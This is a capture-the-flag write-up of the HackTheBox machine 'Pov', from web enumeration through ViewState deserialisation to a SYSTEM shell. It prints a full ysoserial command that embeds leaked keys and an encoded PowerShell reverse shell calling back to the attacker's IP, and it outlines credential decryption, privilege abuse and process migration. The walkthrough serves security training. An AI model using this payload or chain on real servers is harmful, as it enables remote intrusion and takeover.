

# HackTheBox - Pov

We start this box with an nmap scan as usual which reveals only a web application, as we normally do, we add the host to our /etc/hosts and then search for subdomains, of which we find the "dev" subdomain.

```
# Nmap 7.94SVN scan initiated Thu Jun  6 09:12:15 2024 as: nmap -sCV -oN nmap/output 10.10.11.251
Nmap scan report for 10.10.11.251
Host is up (0.026s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: pov.htb
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun  6 09:12:31 2024 -- 1 IP address (1 host up) scanned in 16.11 seconds
```

<figure><figcaption></figcaption></figure>

We head to "dev.pov.htb" and find a portfolio page that allows a user to download a CV. We see this and decide to try download the ASPX file that we know the page runs on by default.

<figure><figcaption></figcaption></figure>

Sure enough, we get the file and can read the contents of the page!

<figure><figcaption></figcaption></figure>

From this point it's worth trying to enumerate for any configuration files in the current directory and as such we try for various combinations of "web.config" and eventually find one that is successful with ".web.config" reveals the contents of a configuration file!

<figure><figcaption></figcaption></figure>

From here we have the decryption key, validation key and encryption method. At this point I got stuck for a while but eventually HackTricks came in handy! It turns out we can exploit the \_\_VIEWSTATE without knowing the secrets.



Reading up on this article, we find that we can utilise the "YSoSerial" binary, which allows us to abuse deserialisation and execute commands on the target system. As such, we fill in the necessary fields and get our payload. We ensure to use a base64 encoded PowerShell payload without the tail using the command format

<pre><code><strong>ysoserial.exe -p ViewState -g TextFormattingRunProperties --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --path="/portfolio/default.aspx" -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAyADMAIgAsADkAOQA5ADkAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
</strong></code></pre>

<figure><figcaption></figcaption></figure>

After getting our payload, we make another request and then paste the code into the \_\_VIEWSTATE variable in our request, with a Netcat listener, we send our request and gain a shell!

<figure><figcaption></figcaption></figure>

From here we have the "sfitz" user but not our `user.txt` so we enumerate in our home directory. Inside the "Documents" folder we find an XML file that contains encrypted details for the "alaading" user.

<figure><figcaption></figcaption></figure>

Doing a large amount of research we eventually find collate our findings and try our commands to find the true password for this user!



<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Bang! We have a set of credentials! From our earlier nmap scan we know that there is no kind of RDP services running, so we'll need to do something from this shell to prompt a shell as the `alaading` user. Luckily for us, there's a useful binary known as `RunasCs` that does this, and allows us to run proceses with different permissions then our current user.



We download the binaries and upload them to the box, then create our command and launch our reverse shell!

<figure><figcaption></figcaption></figure>

Checking our privileges for the `alaading` user we find that debugging programs is disabled by default, but is specified.

<figure><figcaption></figcaption></figure>

Since the other two privileges are quite regular on a Windows machine we decide to look into ways of enabled the `SeDebugPrivilege` permission where we eventually stumble across this article, which leads us to the GitHub provided.





We make another connection and download this powershell script, enabling it and then running it.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

We generate our shell, upload it to the machine and attempt to run it, and succeed after configuring our Metasploit listener.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

We know that from this point we can just migrate our service to the `winlogon.exe` process and we **should** get an Administrator shell. We run `ps` in our meterpreter shell and search for the executable, which we find under process `556`

<figure><figcaption></figcaption></figure>

We migrate to the service and drop ourselves into a shell and sure enough, we are `NT AUTHORITY/SYSTEM` and that is the box!

<figure><figcaption></figcaption></figure>
